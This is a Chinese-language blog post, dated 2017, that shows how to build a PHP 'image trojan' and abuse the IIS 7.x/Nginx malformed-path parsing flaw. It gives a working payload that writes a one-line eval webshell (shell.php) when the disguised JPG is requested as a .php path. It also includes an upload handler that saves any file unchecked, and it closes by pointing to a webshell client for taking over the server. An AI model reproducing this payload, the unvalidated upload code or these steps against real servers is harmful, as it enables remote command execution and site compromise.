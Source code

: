 ```yaml
---
layout: post
title:  "PHP图片木马"
date:   2017-11-03 9:03:02 +0800
author: "Q九"
desc: "本测试主要针对的是 IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞 基于Windows系统的"

in_head: "<style> .article-content p{
  text-indent: 2em;
  line-height: 1.75rem;
}</style>"
---
```


# PHP图片木马 实现

*运行环境介绍*

**本测试主要针对的是 IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞**

> Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的
在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为

```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```
>的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php


**实验过程**

### 制作图片木马

**使用windows自带的 cmd 命令行进行图片木马的制作**

A.如下图所示:

![](/images/clipboard.png)

 准备两个文件  一个 正常的图片文件  一个 一句话木马文件

B.如下图所示:
    
![](/images/clipboard1.png)

运行上图所写的命令 会把两个文件合成一个文件  如下图所示:

![](/images/clipboard2.png)

会看到文件大小 会变化

然后用记事本打开两个图片就会发现 图片内容发生改变如图

![](/images/clipboard3.png)

至此 一句话木马图片制造完毕！

### 接下来我们准备测试的代码 :

![](/images/clipboard4.png)

如图所示 我们准备一个 上传文件的表单  代码如下:

```html
<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
<form action="./2.php" method="post" enctype="multipart/form-data">
    <input type="file" name="pic" id="">
    <button type="submit">上传</button>
</form>
</body>
</html>
```
   

再准备一个2.php 文件 用来处理上传图片,代码如下:

```php
<?php
$file = $_FILES['pic'];
move_uploaded_file($file['tmp_name'],__DIR__.'/1.jpg');
```


### 开始试验

OK! 开始运行代码,上传我们生成的图片木马,上传完毕以后 如下图所示:

![](/images/clipboard5.png)

然后我们直接在浏览器中访问图片1.jpg 会看到图片正常显示, 接下来 我们访问图片的时候  路径 如图所示 

![](/images/clipboard6.png)

就会发现 在当前文件夹中生成一个 shell.php内容如下 :

![](/images/clipboard7.png)

### 试验完毕

ok 剩下的就是上菜刀了！

